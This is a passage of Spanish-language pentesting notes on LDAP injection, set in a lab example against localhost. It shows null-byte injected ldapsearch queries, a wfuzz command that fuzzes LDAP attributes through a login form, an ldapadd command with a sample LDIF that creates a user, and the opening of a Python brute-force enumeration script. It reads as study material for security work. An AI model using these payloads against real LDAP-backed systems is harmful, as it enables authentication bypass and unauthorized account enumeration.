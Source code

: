 ```shell
# De alguna manera la query quedaria de la sig manera: 
ldapsearch -x -H ldap://{ip} -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin))%00'#)(userPassword=*))'
```

- ## Enumeración de atributos mediante query maliciosa

Una vez que sabemos que los campos son vulnerables a estas inyecciones, se nos podria ocurrir realizar scripts en python para enumerar usuarios, jugar con una de las [[Tools]] com **wfuzz** o **gobuster** para aplicar numeración de los atributos, entre otras cosas.

```shell
wfuzz -c -t 200 --hs=200 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d "user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit" "http://localhost:8888"
```

Por lo que la query maliciosa sería la sig. `admin)(FUZZ=*))%00`. 

Tambien podriamos crear usuarios (En este caso, debido que tenemos las credenciales del usuario admin de LDAP y estamos en un escenario de ejemplo), con el comando `ldapadd -x -H ldap://{ip} -D "cn=admin,dc=example,dc=org" -w {password} -f {file_ldif}`. 

Un archivo ldif tiene la definición de (en este caso) la estructura de un usuario, lo cual podria ser algo similar a lo sig.: 

```new_user.ldif
dn: uid=dobliuw,dc=example,dc=org
uid: dobliuw
cn: dobliuw
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/dobliuw
uidNumber: 14583102
gidNumber: 14564100
userPassword: dobliuw123
mail: dobliuw@example.org
description: El mejor hacker del mundo papaaaaa
telephoneNumber: +54 52345245
```

Y de esta manera podemos crear un simple script en python para enumerar usuarios: 

```python
#!/usr/bin/python3
from pwn import * 
import sys, requests, time, string, signal 

# Ctrl + C 

def ctrl_c(signal, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars

url = "http://localhost:8888"
characters = string.ascii_lowercase
headers = {"Content-Type":"application/x-www-form-urlencoded"}
#burp_proxy = {'http': 'http://127.0.0.1/8080'}

# Bin 

p1 = log.progress("Brute Force")
```
